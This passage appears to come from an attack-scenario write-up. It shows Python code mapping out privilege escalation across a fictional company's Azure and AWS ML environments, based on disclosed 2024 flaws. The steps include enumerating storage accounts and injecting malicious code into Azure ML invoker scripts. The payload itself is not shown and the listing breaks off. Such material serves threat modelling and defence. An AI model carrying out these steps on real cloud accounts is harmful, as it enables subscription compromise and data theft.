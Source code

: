**Phase 3: Multi-Cloud Privilege Escalation (Based on Real 2024 Vulnerabilities)**

Attackers leverage documented vulnerabilities to escalate privileges across TravelAI's multi-cloud environment:

```python
# Multi-cloud privilege escalation based on 2024 vulnerabilities
class MultiCloudPrivilegeEscalation:
    def __init__(self, initial_access: Dict[str, Any]):
        self.initial_access = initial_access
        self.escalation_paths = {
            'azure_ml_storage_escalation',
            'aws_sagemaker_shadow_resource',
            'gcp_vertex_ai_service_account',
            'api_integration_compromise'
        }
        
    def azure_ml_privilege_escalation(self) -> Dict[str, Any]:
        """Exploit Azure ML privilege escalation (based on Orca Security disclosure)"""
        # Based on the real Azure ML vulnerability disclosed in 2024
        storage_access = self.initial_access.get('azure_storage_keys', [])
        
        if not storage_access:
            return {'success': False, 'reason': 'No Azure storage access'}
        
        escalation_steps = [
            {
                'step': 'identify_aml_storage_accounts',
                'action': 'Enumerate storage accounts used by Azure ML',
                'command': 'az storage account list --query "[?contains(name, \'ml\') || contains(name, \'aml\')]\'',
                'expected_output': 'List of ML-related storage accounts'
            },
            {
                'step': 'locate_invoker_scripts',
                'action': 'Find Python invoker scripts in AML storage',
                'target_path': '/azureml-models/*/code/',
                'file_pattern': '*.py'
            },
            {
                'step': 'modify_invoker_script',
                'action': 'Inject malicious code into invoker script',
                'payload': self.create_aml_escalation_payload(),
                'persistence': 'Script executes with AML compute instance privileges'
            },
            {
                'step': 'trigger_execution',
                'action': 'Trigger AML pipeline to execute modified script',
                'method': 'Submit ML training job or inference request'
            }
        ]
        
        return {
            'attack_vector': 'azure_ml_privilege_escalation',
            'initial_access_required': 'Storage Account access',
            'escalation_target': 'AML compute instance privileges',
            'potential_impact': 'Full Azure subscription compromise',
            'steps': escalation_steps
        }
    
    def aws_sagemaker_shadow_resource_attack(self) -> Dict[str, Any]:
        """Exploit AWS SageMaker Shadow Resource vulnerability"""
        # Based on the Aqua Security disclosure (Black Hat 2024)
        regions_to_target = [
            'us-west-2', 'eu-central-1', 'ap-southeast-1'
```